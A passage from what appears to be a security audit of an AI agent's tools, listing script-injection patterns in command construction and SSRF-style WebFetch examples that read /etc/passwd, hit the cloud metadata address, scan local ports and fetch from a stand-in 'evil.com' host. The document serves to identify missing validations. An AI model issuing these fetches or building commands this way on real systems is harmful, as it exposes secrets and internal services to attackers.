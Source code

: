 ### 5.2 Script Injection ⚠️ **HIGH**

**Location**: Command generation, script execution
**Risk**: Arbitrary script execution, privilege escalation

#### Script Injection Patterns:
```bash
# Command construction injection
command = f"python -c '{user_input}'"         # Python code injection
shell_cmd = f"bash -c '{user_input}'"         # Shell command injection
git_cmd = f"git commit -m '{user_input}'"     # Git command injection
```

## 6. Network and URL Validation

### 6.1 URL Injection and Validation ⚠️ **HIGH**

**Location**: WebFetch operations, external integrations
**Risk**: SSRF attacks, data exfiltration, network reconnaissance

#### URL Injection Vulnerabilities:
```bash
# Server-Side Request Forgery (SSRF)
/WebFetch("http://localhost:22/")             # Port scanning
/WebFetch("file:///etc/passwd")               # Local file access
/WebFetch("http://169.254.169.254/")          # Cloud metadata access
/WebFetch("http://evil.com/malware")          # Malicious content
```

#### Missing URL Validations:
- **Protocol Whitelist**: No restriction to safe protocols (http/https)
- **Hostname Validation**: No blocking of internal/private IPs
- **Port Restrictions**: No limitation on accessible ports
- **URL Length Limits**: No protection against extremely long URLs

### 6.2 Network Resource Validation ⚠️ **MEDIUM**

**Location**: External service integrations, API calls
**Risk**: Resource exhaustion, network abuse, service disruption

#### Network Resource Abuse:
```bash
# Large resource requests
/WebFetch("http://evil.com/10GB-file.zip")    # Resource exhaustion
/WebFetch("http://slow.com/timeout")          # Indefinite hang
/WebFetch("http://redirect-loop.com/")        # Infinite redirects
```

## 7. Authentication and Authorization Bypass

### 7.1 Authentication Context Injection ⚠️ **HIGH**
